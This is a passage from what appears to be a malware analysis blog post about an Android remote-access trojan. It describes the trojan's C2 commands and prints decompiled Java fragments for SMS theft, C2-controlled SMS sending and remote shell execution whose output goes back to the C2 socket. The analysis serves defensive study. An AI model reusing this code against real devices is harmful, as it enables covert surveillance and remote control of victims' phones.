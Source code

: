 ```java
    } catch (Exception ew7) {
        ew7.printStackTrace();
    }
}
```
Retrieves all text messages stored on the device and sends them to the C2.

### Msppossag
```java
String youmass = MainService.this.command.substring(MainService.this.command.indexOf("Msppossag") + 9, MainService.this.command.indexOf("oproi9"));
String unums = MainService.this.command.substring(MainService.this.command.indexOf("oproi9") + 6, MainService.this.command.indexOf("YRRsxw"));
MainService.sendSMS(unums, youmass);
```
<img src='https://raw.githubusercontent.com/0xSh4dy/0xSh4dy.github.io/master/assets/img/rev/ttsp/ttsp-09.png'>

Sends an SMS to the number specified by the C2. The content of the text message is also controlled by the C2.

### Getconstactx
Retrieves contact information including contact names and their associated phone numbers and transmits it to the C2.

### Rinxgosa
Plays a ringtone.

### Shetermix
Executes a shell command on the device and transmits the results to the C2.

```java
String mssashel = MainService.this.command.substring(MainService.this.command.indexOf("Shetermix") + 9, MainService.this.command.indexOf("fze54h"));
MainService.socketOutputStream.writeBytes(MainService.this.Executer(mssashel) + "shwselxa");
MainService.socketOutputStream.flush();
```
<img src='https://raw.githubusercontent.com/0xSh4dy/0xSh4dy.github.io/master/assets/img/rev/ttsp/ttsp-10.png'>

### bithsssp64
```java
String mssashel2 = MainService.this.command.substring(MainService.this.command.indexOf("bithsssp64") + 10, MainService.this.command.indexOf("0uoirs"));
String mssashel22 = MainService.this.command.substring(MainService.this.command.indexOf("0uoirs") + 6, MainService.this.command.indexOf("fooittt"));
System.out.println("exec(" + mssashel2 + "  " + mssashel22 + ")");
DataOutputStream dataOutputStream2 = MainService.socketOutputStream;
StringBuilder sb11 = new StringBuilder();
sb11.append(MainService.this.Executer2(mssashel2, mssashel22));
```
<img src='https://raw.githubusercontent.com/0xSh4dy/0xSh4dy.github.io/master/assets/img/rev/ttsp/ttsp-11.png'>

